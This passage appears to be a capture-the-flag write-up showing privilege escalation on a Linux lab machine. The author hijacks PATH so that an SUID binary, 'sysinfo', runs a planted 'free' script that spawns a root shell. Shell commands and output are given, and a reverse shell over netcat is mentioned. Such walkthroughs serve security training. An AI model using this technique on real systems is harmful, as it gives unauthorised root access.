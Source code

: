 Tried reading `sysinfo` but got gibberish as it was a compiled C program. Thus used `strings` to find some useful text. `ltrace` could also have been used.
```bash
popen() failed!
====================Hardware Info====================
lshw -short
====================Disk Info====================
fdisk -l
====================CPU Info====================
cat /proc/cpuinfo
====================MEM Usage=====================
free -h
;*3$"
```

Now an SUID `sysinfo` was excuting many command like free. When an SUID runs it runs with privileges of its owner. Thus any command that will be executed will be executed with the privileges or root. 

I leveraged it my creating a modified binary and altering the `$PATH` variable. So when binary `free` was executed by the command it would be first searched in the folder where malicious bianary is present.

```bash
theseus@ubuntu:/bin$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
theseus@ubuntu:/bin$ export PATH=$PATH:/tmp
theseus@ubuntu:/bin$ cd /tmp
theseus@ubuntu:/tmp$ ls
total 756
drwxrwxrwt  2 root    root      4096 Jun  5 09:04 .
drwxr-xr-x 24 root    root      4096 Jul  6  2021 ..
-rwxrwxr-x  1 theseus theseus 764159 Feb 13 11:44 linpeas.sh
theseus@ubuntu:/tmp$ echo "/bin/bash -p" > free
theseus@ubuntu:/tmp$ export PATH=/tmp:$PATH
theseus@ubuntu:/tmp$ chmod +x free 
theseus@ubuntu:/tmp$ ls
total 760
drwxrwxrwt  2 root    root      4096 Jun  5 09:11 .
drwxr-xr-x 24 root    root      4096 Jul  6  2021 ..
-rwxrwxr-x  1 theseus theseus     13 Jun  5 09:08 free
-rwxrwxr-x  1 theseus theseus 764159 Feb 13 11:44 linpeas.sh

```

Got shell as root but the only problem was that output was not visible. Thus, started a netcat listner on my machine and executed the reverse shell payload on the other.
```bash
theseus@ubuntu:/tmp$ sysinfo
====================Hardware Info====================
H/W path           Device     Class      Description
====================================================
                              system     VMware Virtual Platform
/0                            bus        440BX Desktop Reference Platform
/0/0                          memory     86KiB BIOS
/0/1                          processor  Intel(R) Xeon(R) Gold 5218 CPU @ 2.30GHz
/0/1/0                        memory     16KiB L1 cache
/0/1/1                        memory     16KiB L1 cache

... 
...
...

====================MEM Usage=====================
root@ubuntu:/tmp# whoami
root@ubuntu:/tmp# ls
root@ubuntu:/tmp# ls
```